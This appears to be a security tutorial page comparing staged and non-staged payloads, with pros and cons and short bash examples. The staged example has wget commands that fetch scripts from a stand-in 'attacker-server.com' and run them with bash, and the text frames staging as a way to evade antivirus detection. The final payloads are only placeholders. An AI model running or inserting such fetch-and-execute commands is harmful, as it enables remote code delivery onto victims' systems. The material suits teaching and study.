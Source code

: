 # 🍜 Staged vs Non-Staged Payloads

**Staged Payloads:**

* **Definition:** Staged payloads are delivered in multiple stages or pieces.
* **How it works:** The initial payload delivered to the target system is small and has the sole purpose of setting up a communication channel back to the attacker's system. Once this connection is established, additional components (stages) of the payload are sent and executed on the target system.
* **Pros:**
  * Smaller initial payload, making it less likely to be detected by security measures.
  * Easier to evade antivirus or intrusion detection systems during the initial delivery.
* **Cons:**
  * Execution may take longer due to multiple stages being delivered.
  * There's a possibility of being detected during subsequent stages.

**Non-Staged Payloads:**

* **Definition:** Non-staged payloads are delivered in a single, comprehensive piece.
* **How it works:** The entire payload, including all the necessary components, is delivered to the target system in one go. Once on the target, the payload is executed and performs its intended actions.
* **Pros:**
  * Faster execution as there is no need for multiple stages.
  * There's only one payload to be detected, potentially making it simpler to defend against.
* **Cons:**
  * The larger size of the payload may increase the chances of being detected during delivery.
  * Increased likelihood of being flagged by antivirus or intrusion detection systems.

**Summary:**

* **Staged Payloads:** Break the payload into smaller stages for delivery, making it harder to detect initially.
* **Non-Staged Payloads:** Deliver the entire payload at once, which can be faster but may be more easily detected due to its larger size.

<figure><img src="https://www.scaler.com/topics/images/staged-vs-non-staged-payloads_thumbnail.webp" alt=""><figcaption></figcaption></figure>

#### Staged Payload Example:

**Stager (Initial Payload):**

```bash
# Stager script (stage 1)
echo "Staging... establishing connection to attacker's server"
wget <http://attacker-server.com/stage1.sh> -O /tmp/stage1.sh
bash /tmp/stage1.sh

```

**Stage 1:**

```bash
# Stage 1 script (downloads additional stages)
echo "Executing Stage 1..."
wget <http://attacker-server.com/stage2.sh> -O /tmp/stage2.sh
bash /tmp/stage2.sh
```

**Stage 2:**

```bash
# Stage 2 script (final payload)
echo "Executing Final Payload..."
# Actual malicious actions here
```

In this example, the initial stager script sets up the connection and downloads additional stages. Each subsequent stage contains part of the payload, and the final stage executes the malicious actions.

#### Non-Staged Payload Example:

**Non-Staged Payload:**

```bash
# Single payload script
echo "Executing Non-Staged Payload..."
# Actual malicious actions here
```

In this example, the entire payload, including all the necessary components, is delivered in a single script. There are no separate stages, and the malicious actions are executed directly.

#### Comparison:

* **Staged Payloads:** The payload is delivered in multiple stages, with each stage responsible for a specific task. This can be useful for evading detection during the initial delivery.
* **Non-Staged Payloads:** The entire payload is delivered in one go. While it may execute faster, the larger size increases the risk of detection during delivery.
